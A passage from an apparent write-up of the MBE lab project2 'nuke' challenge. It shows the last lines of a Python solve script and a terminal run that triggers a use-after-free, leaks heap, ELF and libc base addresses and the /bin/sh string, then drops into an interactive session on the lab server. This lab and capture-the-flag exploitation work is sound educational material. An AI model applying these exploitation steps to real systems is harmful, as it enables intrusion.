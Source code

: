         print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

{% highlight bash %}
rh0gue@vexillum:/mnt/hgfs/conceptofproof/Documents/MBE/labs/project2$ python solve.py warzone 31337
[*] For remote: solve.py HOST PORT
[+] Opening connection to warzone on port 31337: Done
[+] heap chunk found at: 0xb8f3c008
[+] key 1 unlocked!
[*] triggering UAF...
[*] creating key 3 chunk...
[*] freeing key 3 chunk...
[*] allocating key 2 chunk...
[*] re-using key 3 chunk...
[+] key 3 unlocked!
[+] key 2 unlocked!
[*] programming nuke...
[+] nuke armed!
[*] launching nuke...
[+] elf_base found at: 0xb7731000
[+] libc_base found at: 0xb754f000
[+] binsh string found at: 0xb76afa24
[*] reprogramming nuke...
[*] Switching to interactive mode
  CYBER NUKE REQUESTED INFLIGHT RE-PROGRAMMING
  ESTABLISHING CONNECTION TO CYBER NUKE
  ............................
  INITIALIZING CYBER NUKE PROGRAMMING SEQUENCE......
  CYBER NUKE ENTERING PROGRAMMING MODE
  LOADING......................READY
  ENTER CYBER NUKE TARGETING CODE AS HEX STRING: 
-------------------------------------------------------
-------------------------------------------------------
  VALIDATING CODE INTEGRITY......
  CYBER NUKE CHECKSUM: 0xdcdc59a9
  TARGETING CODE VERIFIED
  FLASHING CYBER NUKE WITH TARGETING CODE
  ...25%...50%...75%...100%
  PROGRAMMING COMPLETE
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
  ACQUIRING TARGET....
